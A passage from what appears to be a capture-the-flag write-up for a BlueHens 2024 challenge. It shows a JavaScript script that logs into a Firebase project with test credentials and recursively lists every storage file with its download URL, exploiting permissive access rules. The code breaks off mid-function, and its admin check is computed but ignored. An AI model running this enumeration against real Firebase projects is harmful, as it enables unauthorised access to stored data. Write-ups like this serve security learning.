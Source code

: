 ```
```
Next go to `app.js` i trying get folders but `PERMISSION DENID` after more hours in docs i found login let's try login using my credentials from Firepwn and we have HINT:
![image gitlog](/post/bluehens2024/rulesfirebase.png)

Let's more research (ChatGPT pleas help me and explain me what i'm doing) and we write something like this

```
const firebaseConfig = {
  apiKey: "AIzaSyBX_qnDyJ9pl_csJUprUywtAh9lUbVqPFU",
  authDomain: "udctf24.firebaseapp.com",
  projectId: "udctf24",
  storageBucket: "udctf24.firebasestorage.app",
  databaseURL: "https://udctf24-default-rtdb.firebaseio.com", 
};

firebase.initializeApp(firebaseConfig);
const storage = firebase.storage();
const auth = firebase.auth();
const database = firebase.database();

async function listFilesRecursively(ref, depth = 0) {
  try {
    const res = await ref.listAll();

    res.prefixes.forEach((folderRef) => {
      console.log(`${' '.repeat(depth * 2)}📂 ${folderRef.name}`);
      listFilesRecursively(folderRef, depth + 1); 
    });

    res.items.forEach(async (itemRef) => {
      const url = await itemRef.getDownloadURL();
      console.log(`${' '.repeat(depth * 2)}📄 ${itemRef.name} - URL: ${url}`);
    });
  } catch (error) {
    console.error("Error:", error);
  }
}

function checkAdminPermissions(user) {
  const adminRef = database.ref(`users/${user.uid}/roles/admin`);

  return adminRef.once('value').then((snapshot) => {
    const isAdmin = snapshot.exists();
    
      const rootRef = storage.ref().child(""); 
      listFilesRecursively(rootRef);
   
  }).catch((error) => {
    console.error("Error:", error);
  });
}

function login() {
  const email = "test@test.pl";
  const password = "test1234";

  auth.signInWithEmailAndPassword(email, password)
    .then((userCredential) => {
      console.log("Login:", userCredential.user);
      const user = firebase.auth().currentUser;
      const adminRef = firebase.database().ref(`users/${user.uid}/roles/admin`);
```
